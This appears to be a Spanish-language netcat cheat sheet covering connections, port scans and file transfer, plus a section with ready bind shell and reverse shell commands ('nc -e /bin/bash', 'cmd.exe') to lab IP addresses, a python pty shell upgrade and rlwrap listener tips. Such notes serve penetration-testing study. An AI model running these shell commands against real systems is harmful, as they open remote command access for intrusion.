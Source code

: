 ### Descargar Netcat para Windows
	https://eternallybored.org/misc/netcat/

### Conexion a puertos
	Servidor
	nc -lvp 1000
	
	Cliente
	nc 127.0.0.1 1000

### Conectar con DNS de google 
	nc -v -u 8.8.8.8 53

### Conectar a una Web
	nc -v plaintext.do 80
	GET / HTTP/1.1
	
### Escaneo de puertos 
	nc -z -vv plaintext.do 78-81
	nc -z -vv 185.199.109.153 78-81
	nc -z -vvn 185.199.109.153 78-81 | evitar inverse host lookup
	
### Transferencia de archivos
	Para Recibir 
	nc -lvnp 1000 > file.txt
	
	Para Enviar
	nc ipreceptor 1000 < file.txt 
	
	Usar md5sum para confirmar que el archivo transferido es identico al recibido
	md5sum file.txt 
	
### Transferencia de grupo de archivos y directorios 
	Para recibir 
	nc -lvnp 1000 | tar -xvf -
	
	Para enviar
	tar -cvf - directorio/ | nc 127.0.0.1 1000

### BindShell
	Servidor
	nc -lvnp 2000 -e /bin/bash (linux)
	nc -lvnp 2000 -e cmd.exe (windows)
	
	Cliente 
	nc 192.168.249.128 2000
	
### Reverse shell
	Servidor 
	nc 192.168.249.128 2000 -e /bin/bash (linux)
	nc 192.168.249.128 2000 -e cmd.exe (windows)
	
	Cliente 
	nc -lvnp 2000
	
	
### python pty 
	python -c "import pty;pty.spawn('/bin/bash')"
	CTRL + Z
	stty raw -echo
	fg
	ENTER

## rlwrap 
rlwrap - https://twitter.com/4lex/status/1099803151832633350

### Instalar rlwrap
	apt-get install rlwrap
	
#### Permite utilizar:
	Teclas de subir y bajar, para el historial de comandos.
	ctrl + L - (limpiar pantalla) 
	Tab auto completar (linux)
	
	rlwrap -c nc -lvnp 2000
	rlwrap -c nc 192.168.249.1 4444 -e /bin/bash 